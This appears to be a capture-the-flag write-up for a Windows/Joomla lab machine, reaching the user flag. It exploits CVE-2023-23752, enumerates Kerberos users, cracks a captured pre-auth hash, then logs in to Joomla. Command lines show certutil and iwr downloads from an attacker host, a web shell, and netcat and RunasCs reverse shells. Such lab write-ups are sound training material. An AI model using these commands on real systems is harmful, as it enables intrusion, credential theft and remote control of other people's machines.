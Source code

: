 User FLAG
-----

```bash
joomscan -u http://10.10.11.3 
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.11.3 ...



[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.7

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.10.11.3/administrator/components
http://10.10.11.3/administrator/modules
http://10.10.11.3/administrator/templates
http://10.10.11.3/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.11.3/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.10.11.3/robots.txt 

Interesting path found from robots.txt
http://10.10.11.3/joomla/administrator/
http://10.10.11.3/administrator/
http://10.10.11.3/api/
http://10.10.11.3/bin/
http://10.10.11.3/cache/
http://10.10.11.3/cli/
http://10.10.11.3/components/
http://10.10.11.3/includes/
http://10.10.11.3/installation/
http://10.10.11.3/language/
http://10.10.11.3/layouts/
http://10.10.11.3/libraries/
http://10.10.11.3/logs/
http://10.10.11.3/modules/
http://10.10.11.3/plugins/
http://10.10.11.3/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found
```

3. Joomla version 4.2.7
4. CVE-2023-23752 to obtain the api endpoint
5. Found password at `api/index.php/v1/config/application?public=true`
6. Kerbrute find 4 users

```bash
2024/03/25 21:56:07 >  [+] VALID USERNAME:       ewhite@office.htb
2024/03/25 21:57:32 >  [+] VALID USERNAME:       dmichael@office.htb
2024/03/25 21:57:43 >  [+] VALID USERNAME:       dwolfe@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       tstark@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       hhogan@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       ppotts@office.htb
2024/03/25 22:10:21 >  Done! Tested 48705 usernames (6 valid) in 876.820 seconds
```

```bash
curl -v http://10.10.11.3/api/index.php/v1/config/application?public=true
```

smbclient to download the pcap file

```bash
smbclient '//10.10.11.3/SOC Analysis' -U 'dwolfe'
Password for [WORKGROUP\dwolfe]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed May 10 15:52:24 2023
  ..                                DHS        0  Wed Feb 14 07:18:31 2024
  Latest-System-Dump-8fbc124d.pcap      A  1372860  Sun May  7 21:59:00 2023

        6265599 blocks of size 4096. 1234461 blocks available
smb: \> get Latest-System-Dump-8fbc124d.pcap
getting file \Latest-System-Dump-8fbc124d.pcap of size 1372860 as Latest-System-Dump-8fbc124d.pcap (737,9 KiloBytes/sec) (average 737,9 KiloBytes/sec)
smb: \> exit
```

```
❯ nxc smb 10.129.230.226 -u 'dwolfe' -p 'H0lOgrams4reTakIng0Ver754!' --shares
SMB         10.129.230.226  445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.226  445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.129.230.226  445    DC               [*] Enumerated shares
SMB         10.129.230.226  445    DC               Share           Permissions     Remark
SMB         10.129.230.226  445    DC               -----           -----------     ------
SMB         10.129.230.226  445    DC               ADMIN$                          Remote Admin
SMB         10.129.230.226  445    DC               C$                              Default share
SMB         10.129.230.226  445    DC               IPC$            READ            Remote IPC
SMB         10.129.230.226  445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.230.226  445    DC               SOC Analysis    READ            
SMB         10.129.230.226  445    DC               SYSVOL          READ            Logon server share 
```

Metasploit to find the Joomla users and config

```
msf6 auxiliary(scanner/http/joomla_api_improper_access_checks) > run

[+] Users JSON saved to /home/dyallo/.msf4/loot/20240325225623_default_10.10.11.3_joomla.users_847029.bin
[+] Joomla Users
============

 ID   Super User  Name        Username       Email                         Send Email  Register Date        Last Visit Date      Group Names
 --   ----------  ----        --------       -----                         ----------  -------------        ---------------      -----------
 474  *           Tony Stark  Administrator  Administrator@holography.htb  1           2023-04-13 23:27:32  2024-01-24 13:00:47  Super Users

[+] Config JSON saved to /home/dyallo/.msf4/loot/20240325225624_default_10.10.11.3_joomla.config_714713.bin
[+] Joomla Config
=============

 Setting        Value
 -------        -----
 db encryption  0
 db host        localhost
 db name        joomla_db
 db password    H0lOgrams4reTakIng0Ver754!
 db prefix      if2tx_
 db user        root
 dbtype         mysqli

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Wireshark to analyze the pcap file, found the kerberos cipher

![alt text](assets/image.png)
![alt text](assets/image-1.png)
![alt text](assets/image-2.png)

```
$krb5pa$18$<USER>$<DOMAIN>$<CIPHER>
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
./hashcat -m 19900 ~/Documents/Security/wordlists/users/krb5.txt ../wordlists/rockyou.txt
playboy69
```

Login to Joomla with the credentials found

```
/administrator
Administrator:playboy69
```

Plugins

![alt text](assets/image-5.png)
![alt text](assets/image-3.png)
![alt text](assets/image-4.png)

Templates

![alt text](assets/image-6.png)

Web shell

![alt text](assets/image-7.png)

```
certutil.exe -f -urlcache -split http://10.10.14.9/nc.exe nc.exe
nc.exe 10.10.14.9 4444 -e cmd
http://office.htb/index.php?cmd=certutil.exe%20-f%20-urlcache%20-split%20http://10.10.14.9/nc.exe%20nc.exe
http://office.htb/index.php?cmd=nc.exe%2010.10.14.9%204444%20-e%20cmd
```

![alt text](assets/image-8.png)

Run winpeas

```
Version: NetNTLMv2
sh:    web_account::OFFICE:1122334455667788:7428beb2ea98d27d689620872e78712e:0101000000000000951aec1c757fda0165c4bcda3e5147a6000000000800300030000000000000000000000000300
0002be326c3e05d4883985d4423949cf81dcdb056deba22c85a17cbe4dae65b02310a00100000000000000000000000000000000000090000000000000000000000
```

![alt text](assets/image-9.png)
![alt text](assets/image-10.png)

```bash
sudo python3 -m http.server 80
rlwrap nc -lnvp 5555
```

```powershell
cd \users\web_account\desktop
powershell
iwr -uri http://10.10.14.3/RunasCs.exe -outfile RunasCs.exe
.\RunasCs.exe tstark playboy69 cmd.exe -r 10.10.14.9:5555
```

```powershell
cd \users\tstark\desktop
type user.txt
```

## Versions

Apache 2.4.56
PHP 8.0.28
OpenSSL 1.1.1l

## Links

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce
- https://github.com/Pushkarup/CVE-2023-23752/tree/main
- https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce
- https://github.com/antonioCoco/RunasCs/releases
- https://weakdh.org/